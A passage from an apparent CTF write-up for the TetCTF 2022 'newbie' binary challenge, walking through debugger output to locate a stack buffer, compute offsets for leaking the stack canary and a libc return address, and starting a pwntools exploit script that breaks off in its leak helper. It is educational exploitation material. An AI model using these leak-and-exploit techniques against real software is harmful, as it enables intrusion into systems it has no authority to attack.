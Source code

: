 ![Debugging the address passed to create function]({{ site.url }}{{ site.baseurl }}/assets/images/tetctf-2022/newbie-4.png){: .align-center}

If we look for occurences of this value, it appears in the stack at address `0x7fffffffe2b6`.

![Grepping for occurrences of the value]({{ site.url }}{{ site.baseurl }}/assets/images/tetctf-2022/newbie-5.png){: .align-center}

Examining the contents of the stack around that address gives us these values. To validate this
hypothesis, we can try to look at `id 1` where we expect the value to be `0x0549`.

![Examining the stack at the occurence of the value]({{ site.url }}{{ site.baseurl }}/assets/images/tetctf-2022/newbie-6.png){: .align-center}

This is exactly what we see when we test that out.

![Confirming the base address of the buffer]({{ site.url }}{{ site.baseurl }}/assets/images/tetctf-2022/newbie-7.png){: .align-center}

Given that we know the value of the base buffer to be `0x7fffffffe2b6`, we can now look for
occurrences of the stack canary on the stack to determine the required offset. Since we are looking
for one after the buffer, the most likely usable one is `0x7fffffffe318`.

![Finding occurences of the stack canary]({{ site.url }}{{ site.baseurl }}/assets/images/tetctf-2022/newbie-8.png){: .align-center}

This is 98 bytes away from the buffer, hence to leak the entire stack canary, we need to probe
offsets `49, 50, 51, 52`. We have our stack canary leak now.

```console
In [461]: 0x7fffffffe318 - 0x7fffffffe2b6
Out[461]: 98
```

Next, we want to leak something from libc. Something we know that's definitely on the stack is the
return address back into `__libc_start_main` from the `main` function. Searching for it tells us
that it is at the stack address `0x7fffffffe348`.

![Looking for the saved return value into main.]({{ site.url }}{{ site.baseurl }}/assets/images/tetctf-2022/newbie-9.png){: .align-center}

Great, this is 146 bytes away from the buffer. Thus, we have to leak offsets `73, 74, 75, 76` to
obtain the full value.

```console
In [465]: 0x7fffffffe348 - 0x7fffffffe2b6
Out[465]: 146
```

Putting all of this together into an exploit, we have:

```python
#!/usr/bin/env python

from pwn import *
from one_gadget import generate_one_gadget

import ctypes


charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
stack_canary_offset = 49
stack___libc_start_main_offset = 73
hashes = {}
# context.log_level = 'debug'


def leak(p, offset, toggle_zero=True):
    '''Leaks 2 bytes at an offset << 1.
    '''
    p.recvuntil(b'> ')
    p.sendline(b'id ' + str(offset).encode())
    p.recvuntil(b'> ')
    p.sendline(b'create')
```